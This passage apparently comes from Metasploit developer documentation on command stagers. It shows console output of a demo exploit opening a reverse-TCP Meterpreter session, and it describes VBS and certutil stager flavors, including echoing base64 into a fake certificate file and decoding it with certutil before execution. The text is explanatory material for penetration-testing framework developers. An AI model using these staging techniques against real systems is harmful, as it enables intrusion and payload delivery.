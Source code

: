 And let's run that, we should have a shell:
```msf
msf exploit(cmdstager_demo) > run

[*] Started reverse TCP handler on 10.6.0.92:4444
[*] Exploiting...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 10.6.0.92
[*] Meterpreter session 1 opened (10.6.0.92:4444 -> 10.6.0.92:51522) at 2016-06-10 11:51:03 -0500
```

# Flavors
## VBS Command Stager - Windows Only
To use the VBS stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'vbs' ]
```

Or set the :vbs key to execute_cmdstager:
```ruby
execute_cmdstager(flavor: :vbs)
```

You will also need to make sure the module's supported platforms include windows (also in the metadata), example:
```ruby
'Platform' => 'win'
```

## Certutil Command Stager - Windows Only
[Certutil](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/cmdstager/certutil.rb) is a Windows command that can be used to dump and display certification authority, configuration information, configure certificate services, back up and restore CA components, etc. It only comes with newer Windows systems starting from Windows 2012, and Windows 8.  I find the certutil flavor confusing, as certutil can be used to download files just like `wget` and `ftp`, we do not use it that way here; instead we use `echo` to write the file as a base64 encoded certificate, and then we use `certutil` to decode it prior to execution:
```bash
echo -----BEGIN CERTIFICATE----- > encoded.txt
echo Just Base64 encode your binary data
echo TVoAAA== >> encoded.txt
echo -----END CERTIFICATE----- >> encoded.txt
certutil -decode encoded.txt decoded.bin
```

To use the Certutil command stager, either specify your CmdStagerFlavor in the metadata:
```ruby
'CmdStagerFlavor' => [ 'certutil' ]
```

Or set the :certutil key to execute_cmdstager:
```ruby
execute_cmdstager(flavor: :certutil)
```

